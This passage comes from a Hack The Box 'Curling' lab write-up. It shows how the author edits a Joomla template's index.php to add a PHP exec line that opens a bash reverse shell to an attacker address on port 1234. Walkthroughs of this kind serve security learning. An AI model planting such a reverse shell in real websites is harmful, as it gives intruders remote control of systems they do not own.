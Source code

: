 Clicking on the "Protostar" link under the "Template" column shown in the image above directs to a page that allows for the files included in the template to be edited. Also, this page shows that the templates include PHP files. 

Checking out the `index.php` file confirms that this file builds the home page present at `http://10.10.10.150`, as the last three lines of contain the same reference to `secret.txt` as found in the HTML source code previously.

![edit_index1.png](/assets/images/htb/curling/edit_index1.png)

The `index.php` file was next edited to include the code shown below:

```
echo exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/1234 0>&1'");
```

This was placed in the `index.php` file as represented in the following screenshot.
